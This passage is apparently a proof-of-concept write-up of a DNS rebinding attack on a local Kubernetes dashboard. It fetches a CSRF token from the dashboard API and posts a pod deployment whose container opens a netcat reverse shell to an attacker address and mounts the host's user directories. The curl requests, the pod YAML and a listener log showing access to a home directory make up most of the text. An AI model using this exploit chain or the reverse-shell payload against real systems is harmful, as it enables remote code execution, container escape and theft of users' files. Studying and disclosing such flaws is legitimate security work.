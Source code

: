 ```
$ curl http://192.168.99.100:30000/api/v1/csrftoken/appdeploymentfromfile
{
  "token": "AQ_3pRIv6gjjoVkniBS9xK6tSqI:1538256679430"
}
```

The page can proceed to post an arbitrary deployment to the dashboard, using the above token to set the `X-CSRF-TOKEN` header. An attacker could, for example, create a deployment with a container that will connect a reverse shell back to the attacker. The attacker may also wish to mount the host user's home directory into the container, trivially breaking out of the container and hypervisor.

The deployment below will create a reverse shell back to an attacker at `1.2.3.4:4444` and mount the home directory of a MacOS user:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: dns-rebind-rce-poc
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 1.2.3.4 4444 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /Users/
      type: Directory
```

A curl request that would create this deployment is given below:

```
$ curl 'http://192.168.99.100:30000/api/v1/appdeploymentfromfile' -H 'X-CSRF-TOKEN: eT3xz2k_26fNCBzPpIZ1-A1s-gE:1538254867049' -H 'Content-Type: application/json;charset=utf-8'  --data '{"name":"","namespace":"default","content":"apiVersion: v1\nkind: Pod\nmetadata:\n  name: dns-rebind-rce-poc\nspec:\n  containers:\n  - name: busybox\n    image: busybox:1.29.2\n    command: [\"/bin/sh\"]\n    args: [\"-c\", \"nc 1.2.3.4 4444 -e /bin/sh\"]\n    volumeMounts:\n    - name: host\n      mountPath: /host\n  volumes:\n  - name: host\n    hostPath:\n      path: /\n      type: Directory\n","validate":true}'
```

As a result of the above request, the attacker will receive a reverse shell with access to the home directory:

```
~# nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [4.3.2.1] port 4444 [tcp/*] accepted (family 2, sport 55593)
ls -lh /host/Users/user/
total 124
drwxr-xr-x    1 1001     1001        1.8K Sep 29 14:19 .
drwxr-xr-x    1 1001     1001         160 Mar 30  2018 ..
drwx------    1 1001     1001          96 Aug 27 10:04 Applications
drwx------    1 1001     1001         128 Sep 24 17:45 Desktop
drwx------    1 1001     1001         160 Aug  8 18:29 Documents
drwx------    1 1001     1001        1.2K Sep 29 17:14 Downloads
drwx------    1 1001     1001        1.9K Jun 12 11:16 Library
drwx------    1 1001     1001          96 Mar 30  2018 Movies
drwx------    1 1001     1001         128 Apr  1 13:38 Music
drwx------    1 1001     1001         320 Sep  6 07:27 Pictures
drwxr-xr-x    1 1001     1001         544 Sep 29 12:54 Projects
```